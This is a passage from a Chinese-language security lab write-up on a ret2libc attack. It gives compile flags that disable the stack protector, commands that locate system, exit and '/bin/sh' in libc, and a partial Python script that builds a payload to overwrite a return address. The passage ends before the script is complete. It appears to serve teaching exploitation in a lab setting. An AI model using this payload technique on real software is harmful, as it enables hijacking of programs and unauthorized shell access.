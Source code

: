 ## 4.4 ret2libc

编译，开启栈不可执行

```bash
gcc -fno-stack-protector -no-pie -z noexecstack -m32 prog2.c -o prog2_noexec
```

寻找system, exit, /bin/sh地址

system地址：

`readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system@"`

![image-20230520002125294](assets/image-20230520002125294.png)

exit地址：

`readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " exit@"`

![image-20230520002319878](assets/image-20230520002319878.png)

/bin/sh地址

`ropper --file /lib/i386-linux-gnu/libc.so.6 --string "/bin/sh"`

![image-20230520002230344](assets/image-20230520002230344.png)

task2_2.py

```python
#!/usr/bin/python3
# task2_2: ret2libc
import sys

# ebp(frame pointer)+4 = return address
addr = 0xffffced8 + 4
payload  = (addr + 10).to_bytes(4,byteorder='little')  # high 2 bytes of /bin/sh string address
payload += ("abcd").encode('latin-1')           
payload += (addr + 8).to_bytes(4,byteorder='little')  # low 2 bytes of /bin/sh string address
payload += ("abcd").encode('latin-1')
payload += (addr + 6).to_bytes(4,byteorder='little')  # high 2 bytes of exit address
payload += ("abcd").encode('latin-1')
payload += (addr + 4).to_bytes(4,byteorder='little')  # low 2 bytes of exit address
```